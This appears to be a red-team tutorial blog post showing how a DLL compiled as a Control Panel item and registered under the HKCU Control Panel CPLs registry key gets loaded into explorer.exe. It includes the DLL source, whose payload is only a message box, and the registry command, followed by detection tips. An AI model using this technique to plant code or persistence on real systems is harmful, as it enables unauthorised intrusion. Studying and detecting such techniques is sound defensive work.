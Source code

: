 ```yaml
---
layout: post
title: "2024-06-18-code execution through control panel add ins"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution-through-control-panel-add-ins/
---
```


# Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.

{% hint style="info" %}
This technique could also be considered for persistence.
{% endhint %}

## Execution

Let's compile our control panel item (which is a simple DLL with an exported function `Cplapplet`) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in (defenders beware of these registry modifications):

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```

![](<../../.gitbook/assets/image (573).png>)

Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:

![](../../.gitbook/assets/control-panel-item-addin.gif)

Below shows that our DLL is injected into explorer.exe:

![](<../../.gitbook/assets/image (574).png>)

## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf)
@spotheplanet
